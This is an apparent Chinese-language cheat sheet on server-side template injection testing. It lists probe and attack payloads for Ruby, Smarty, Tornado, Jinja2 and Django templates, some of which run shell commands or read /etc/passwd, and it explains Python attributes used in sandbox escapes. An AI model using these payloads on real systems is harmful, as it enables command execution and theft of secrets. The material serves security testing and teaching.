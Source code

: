 ### 2. 测试方法
- 确定使用的引擎
- 查看引擎相关的文档,确定其安全机制以及自带的函数和变量
- 需找攻击面, 尝试攻击

### 3. 测试用例
- 简单的数学表达式, `{{7+7}} => 14`
- 字符串表达式 `{{ 'ajin' }} => ajin`
- Ruby
  - `<%= 7 * 7 %>`
  - `<%= File.open('/etc/passwd').read %>`
- Java
  - `${7*7}`
- Twing
  - `{{7*7}}`
- Smarty
  - ```{phpecho `id`;{/php} ```
- AngularJs
  - `$evel('1+1')`
- Tornado
  - 引用模块 `{% import module %}`
  - => `{% import os %}{{ os.popen("whoami").read() }}`
- Flask/Jinja2
  - `{{ config }}`
  - `{{ config.items() }}`
  - `{{get_flashed_messages.__globals__['current_app'].config}}`
  - `{{''.__class__.__mro__[-1].__subclasses__()}}`
  - `{{ url_for.__globals__['__builtins__'].__import__('os').system('ls') }}`
  - `{{ request.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}`
- Django
  - `{{ request }} `
  - `{% debug %}`
  - `{% load module %}`
  - `{% include "x.html" %}`
  - `{% include "x.html" %}`
  - `{% extends "x.html" %}`

### 4. 目标
- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权

### 5. 相关属性
#### 1. `__class__`
python中的新式类（即显示继承object对象的类）都有一个属性 `__class__` 用于获取当前实例对应的类，例如 `"".__class__`就可以获取到字符串实例对应的类

#### 2. `__mro__`
python中类对象的 `__mro__` 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。
